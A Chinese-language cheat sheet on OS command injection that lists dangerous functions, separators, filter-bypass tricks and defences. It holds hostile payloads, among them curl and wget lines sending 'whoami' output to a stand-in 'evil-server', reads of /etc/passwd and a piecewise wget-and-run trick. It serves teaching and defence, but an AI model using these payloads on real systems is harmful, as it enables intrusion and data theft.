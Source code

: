 ## 概要

命令注入通常指因为Web应用在服务器上拼接系统命令而造成的漏洞。 该类漏洞通常出现在调用外部程序完成一些功能的情景下。比如一些Web管理界面的配置主机名IP掩码网关、查看系统信息以及关闭重启等功能，或者一些站点提供如ping、nslookup、提供发送邮件、转换图片等功能都可能出现该类漏洞。

## 常见危险函数

### PHP

-   system
-   exec
-   passthru
-   shell_exec
-   popen
-   proc_open

### Python

-   system
-   popen
-   subprocess.call
-   spawn

### Java

-   java.lang.Runtime.getRuntime().exec(command)

## 常见注入方式

-   分号分割
-   || && & 分割
-   | 管道符
-   $\r$ $\n$ %d0%a0 换行
-   反引号解析
-   $() 替换

## 无回显技巧编辑

-   bash反弹shell
-   DNS外带数据
-   http外带

 **curl [http://evil-server/$(whoami)](http://evil-server/$(whoami))**
 **wget [http://evil-server/$(whoami)](http://evil-server/$(whoami))**

-   无带外时利用 sleep 或其他逻辑构造布尔条件

## 常见绕过方式

### 空格绕过

-   < 符号 cat<123
-   $\t$ / %09
- \${IFS} 其中{}用来截断，比如cat\$IFS2会被认为IFS2是变量名。另外，在后面加个$可以起到截断的作用，一般用$9，因为$9是当前系统shell进程的第九个参数的持有者，它始终为空字符串

### 黑名单绕过

-   **a=l;b=s;$a$b**
-   base64 **echo "bHM=" | base64 -d**
-   **/?in/?s** => **/bin/ls**
-   连接符 **cat /etc/pass'w'd**
-   未定义的初始化变量 **cat$x /etc/passwd**

### 长度限制绕过

```
>wget\
>foo.\
>com
ls -t > a
sh a
```

上面的方法为通过命令行重定向写入命令，接着通过ls按时间排序把命令写入文件，最后执行 直接在Linux终端下执行的话,创建文件需要在重定向符号之前添加命令 这里可以使用一些诸如w,[之类的短命令，(使用ls /usr/bin/?查看) 如果不添加命令，需要Ctrl+D才能结束，这样就等于标准输入流的重定向 而在php中 , 使用 shell_exec 等执行系统命令的函数的时候 , 是不存在标准输入流的，所以可以直接创建文件

## 常用符号

### 命令分隔符

-   %0a / %0d / \\n / \\r
-   ;
-   & / &&

### 通配符

-   * 0到无穷个任意字符
-   ? 一个任意字符
-   [ ] 一个在括号内的字符，e.g. [abcd]
-   [ - ] 在编码顺序内的所有字符
-   [^ ] 一个不在括号内的字符

## 防御

-   不使用时禁用相应函数
-   尽量不要执行外部的应用程序或命令
-   做输入的格式检查
-   转义命令中的所有shell元字符

```
 shell元字符包括 #&;,|*?~<>^()[]{}$\`
```

命令行注入，用户输入的字符串被直接作为系统命令在命令行执行。 存储型命令行注入，来自存储设备的字符串被直接作为命令行使用。